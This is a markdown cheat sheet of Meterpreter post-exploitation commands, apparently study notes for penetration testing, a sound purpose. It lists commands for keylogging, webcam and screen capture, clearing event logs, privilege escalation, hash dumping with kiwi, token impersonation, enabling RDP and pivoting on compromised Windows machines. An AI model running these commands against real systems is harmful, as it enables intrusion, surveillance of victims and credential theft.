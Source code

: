 ```yaml
---
tags:
  - security
  - tool
  - metasploit
title: Meterpreter
date: 2024-01-28 14:15:56 -0600
---
```


Meterpreter runs from the memory of the target machine. It allows us to migrate between system processes if required as well

#### Basic System Information

````bash
getuid 				# View User Info
sysinfo
net user 			# View users on System
ipconfig
ps 				
getprivs 			# View user privileges
find 				# Find files on System

# View privileges of current user
whoami /priv 		
whoami /groups

tasklist /SVC 		# View running processes
````

#### Upload & Download File

````bash
download <filename> 	# Download file from Target
upload <filename> <path-on-target>
````

#### Capture Image

````bash
webcam_list
webcam_snap
screenshot
````

#### Keylogger

````bash
keyscan_start
keyscan_dump 	# View all the keystrokes
keyscan_stop
````

#### Operations on Target

````bash
shell 					# Launch Shell - To go back use Ctrl + Z
clearev 				# Clear Tracks
migrate <process-id> 	# Migrate to different process
execute -f <filename>
getsystem 				# Try to escalate privileges
hashdump 				# Dump Hashes
````

When using migrate the target process should have the same privilege as the current process and show be of the same architecture as well

#### Run Payload

````bash
run post/windows/gather/checkvm 				# Check if target is VM
run post/windows/gather/hashdump 				# Collect Password Hashes
run post/multi/recon/local_exploit_suggester 	# Find exploits for Target
run post/windows/manage/enable_rdp 				# Force Enable RDP

load kiwi 			# Start Kiwi
lsa_dump_sam 		# Dump Hashes

run autoroute -h 	# Setup autoroute for Pivoting

load incognito
list_tokens -u 		# View Tokens
impersonate_token "<token-name>"
````

#### Session Management

````bash
background

sessions -l 					# List Sessions
session -i <session-id>
session <number> 				# Select a Session

sessions -K 					# Kill all sessions
sessions -k <sess-id> 			# Kill a session
````
